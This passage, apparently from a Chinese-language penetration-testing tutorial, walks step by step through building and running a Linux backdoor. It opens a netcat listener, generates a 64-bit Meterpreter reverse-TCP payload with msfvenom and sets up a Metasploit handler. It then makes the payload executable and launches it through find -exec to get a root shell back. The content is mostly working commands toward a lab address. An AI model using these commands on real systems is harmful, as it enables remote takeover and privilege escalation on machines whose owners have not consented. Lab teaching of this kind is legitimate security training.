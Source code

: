 ```
nc -lvnp 5555
```

![image-20230331103051814](https://s2.loli.net/2023/04/02/A5Oewg2FtWKEQxr.png)

## MSF后门木马反弹

这里我们可以尝试生成一个Linux的后门木马进行反弹，在生成之前需要知道Linux是32位还是64位。

### 生成后门

我们这里知道操作系统是64位的，所以我们生成一个64位的Linux后门木马。

```
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=192.168.10.20  LPORT=5555 -f elf > shell.elf
```

![image-20230331122326145](https://s2.loli.net/2023/04/02/viUWz4boCutp1jy.png)

### 开启监听

这里开启kali上的监听。

```
use exploit/multi/handler                      ##进入监听
set payload linux/x64/meterpreter/reverse_tcp  ##监听payload
set lhost 192.168.10.20                        ##设置监听地址
set lport 5555                                 ##设置监听端口
run																						 ##执行
```

![image-20230331122905795](https://s2.loli.net/2023/04/02/ozskMX5jTOlVD9f.png)

### 上传后门

这里将后门上传到Linux系统中，并且给文件添加一个执行权限，然后再使用find进行执行。

```
chmod +x shell.elf     ##给后门木马添加权限
find 111 -exec ./shell.elf \;  ## 执行后门木马
```

![image-20230331122933587](https://s2.loli.net/2023/04/02/cue3p4PkDhZWodX.png)

### 查看反弹效果

可以看到这里使用木马反弹回来的是root权限，那么我们输入内容就无需使用find进行执行了。

![image-20230331123006482](https://s2.loli.net/2023/04/02/ZPSYJjn4g3Ed98i.png)

## 总结

至于其它的命令使用方式，可以在给予的网站中去查找相关的使用方式，这里就不再进行演示了。
